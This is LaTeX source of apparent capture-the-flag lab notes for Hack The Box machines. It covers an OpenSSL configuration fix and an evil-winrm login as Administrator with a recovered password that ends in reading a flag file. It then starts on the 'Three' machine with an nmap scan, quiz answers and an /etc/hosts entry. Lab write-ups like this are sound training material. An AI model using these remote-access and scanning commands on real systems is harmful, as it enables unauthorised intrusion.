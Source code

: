 \documentclass[a4paper,10pt]{article}
\begin{document}
We get the error
\begin{bash}
Error: An error of type OpenSSL::Digest::DigestError happened, message is Digest
initialization failed: initialization error
\end{bash}

I found the \href{https://forum.manjaro.org/t/openssl-issue-with-ruby-3-0-6p216/147369}{solution} to this issue by editing the \texttt{/etc/ssl/openssl.cnf} file. The following sections need to be modified:
\begin{bash}
default = default_sect
legacy = legacy_sect

[default_sect]
activate = 1

[legacy_sect]
activate = 1
\end{bash}

Now we can hack the machine:
\begin{bash}
evil-winrm --ip 10.129.97.105 --user Administrator --password badminton -P 5985
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls ..
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls /Users
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls /Users/mike
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls /Users/mike/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat /Users/mike/Desktop/flag.txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> exit
\end{bash}

\subsection{Three \faLinux}

\begin{bash}
nmap -T5 -Pn -sV -p- --min-rate=1000 "10.129.193.208"
\end{bash}
\begin{txt}
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
\end{txt}
How many TCP ports are open? \texttt{2}.

What is the domain of the email address in the ``Contact" section of the website? \texttt{thetoppers.htb}.

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? \texttt{/etc/hosts}.
\begin{bash}
echo "10.129.193.208    thetoppers.htb" | sudo tee -a /etc/hosts
\end{bash}
\end{document}
